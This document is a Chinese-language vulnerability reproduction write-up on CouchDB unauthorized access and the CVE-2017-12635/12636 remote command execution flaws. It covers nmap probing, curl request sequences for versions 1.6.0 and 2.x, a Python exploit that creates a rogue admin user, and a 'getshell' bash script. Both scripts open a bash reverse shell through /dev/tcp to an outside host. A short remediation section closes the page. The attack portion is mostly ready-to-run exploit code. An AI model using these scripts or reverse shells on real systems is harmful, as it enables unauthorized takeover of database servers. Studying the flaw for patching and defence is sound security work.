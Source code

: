 # CouchDB 未授权访问

> 原文：[http://book.iwonder.run/0day/CouchDB/1.html](http://book.iwonder.run/0day/CouchDB/1.html)

## 一、漏洞简介

> CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation (JSON) API 访问。CouchDB 会默认会在 5984 端口开放 Restful 的 API 接口，用于数据库的管理功能。 CouchDB 允许用户指定一个二进制程序或者脚本，与 CouchDB 进行数据交互和处理，query_server 在配置文件 local.ini 中的格式：

```
[query_servers]
LANGUAGE = PATH ARGS
默认情况下，配置文件中已经设置了两个 query_servers:

[query_servers]
javascript = /usr/bin/couchjs /usr/share/couchdb/server/main.js
coffeescript = /usr/bin/couchjs /usr/share/couchdb/server/main-coffee.js 
```

可以看到，CouchDB 在 query_server 中引入了外部的二进制程序来执行命令，如果我们可以更改这个配置，那么就可以利用数据库来执行命令了

在 2017 年 11 月 15 日，CVE-2017-12635 和 CVE-2017-12636 披露，CVE-2017-12636 是一个任意命令执行漏洞，我们可以通过 config api 修改 couchdb 的配置 query_server，这个配置项在设计、执行 view 的时候将被运行。

[http://bobao.360.cn/learning/detail/4716.html](http://bobao.360.cn/learning/detail/4716.html)
[https://justi.cz/security/2017/11/14/couchdb-rce-npm.html](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html)

## 二、影响范围

*   小于 1.7.0 以及 小于 2.1.1
*   该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用 CVE-2017-12635 先增加一个管理员用户。

## 三、复现过程

#### 1.扫描探测

```
nmap -p 5984 --script "couchdb-stats.nse" 127.0.0.1 
```

![image](img/4f7287ec4f045fe1537c2f28b2051b97.png)

#### 2.两个版本的利用方式

##### (1) 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行,其中,vulhub:vulhub 为管理员账号密码。

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json' 
```

![image](img/a9520e2bfa785ec2204a149f5b7736aa.png)

第一个请求是添加一个名字为 cmd 的 query_servers，其值为 id >/tmp/success，这就是我们后面待执行的命令。 第二、三个请求是添加一个 Database 和 Document，这里添加了后面才能查询。 第四个请求就是在这个 Database 里进行查询，因为我将 language 设置为 cmd，这里就会用到我第一步里添加的名为 cmd 的 query_servers，最后触发命令执行。

##### (2) 2.1.0 下的说明

2.1.0 中修改了我上面用到的两个 API，这里需要详细说明一下。 Couchdb 2.x 引入了集群，所以修改配置的 API 需要增加 node name。这个其实也简单，我们带上账号密码访问/_membership 即可：

```
curl http://vulhub:vulhub@your-ip:5984/_membership 
```

可见，我们这里只有一个 node，名字是 nonode@nohost。

然后，我们修改 nonode@nohost 的配置：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"' 
```

然后，与 1.6.0 的利用方式相同，我们先增加一个 Database 和一个 Document：

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}' 
```

Couchdb 2.x 删除了 _temp_view，所以我们为了触发 query_servers 中定义的命令，需要添加一个 _view：

```
curl -X PUT http://vulhub:vulhub@your-ip:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json" 
```

增加 _view 的同时即触发了 query_servers 中的命令。

#### 2.1 p 牛的 python 脚本 支持高低版本 需要在 version = 定义

```
##!/usr/bin/env python3
import requests
from requests.auth import HTTPBasicAuth

target = 'http://127.0.0.1:5984'
command = '"bash -i >& /dev/tcp/192.168.2.64/2222 0>&1"'
version = 2

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
## session.proxies = {
##     'http': 'http://127.0.0.1:8085'
## }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=command)
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=command)

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}') 
```

#### 2.2 bash 自动化脚本

```
##!/bin/bash

echo CouchDB getshell - c0debreak - tools.changesec.com
echo

if [[ $## -ne 2 ]];then
    echo Usage: $0 http://xx.xx.xx.xx:5984 myserver:myport
    exit 1
else
    server=$1
    cb=${2/:/\/}
fi

function run() {
    cmd=$1

    curl -XPUT "$server/_config/query_servers/cmd" -d "\"$cmd\""
    curl -XPUT "$server/example"
    curl -XPUT "$server/example/record" -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
    curl --max-time 1 "$server/example/_temp_view?limit=1" -d '{"language":"cmd", "map":""}' -H 'Content-Type: application/json'
}

run "echo '/bin/bash -i >& /dev/tcp/$cb 0>&1' > /tmp/shell"
run "bash /tmp/shell"
run "rm -f /tmp/shell"

curl -XDELETE "$server/_config/query_servers/cmd" 
```

![image](img/479bc3e5115f523efbe9b72e72d720c3.png)

#### 漏洞修复

1.  漏洞修复

1、指定 CouchDB 绑定的 IP （需要重启 CouchDB 才能生效） 在 /etc/couchdb/local.ini 文件中找到 bind_address = 0.0.0.0，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问 CouchDB。

2、设置访问密码 （需要重启 CouchDB 才能生效） 在 /etc/couchdb/local.ini 中找到 [admins]字段配置密码。

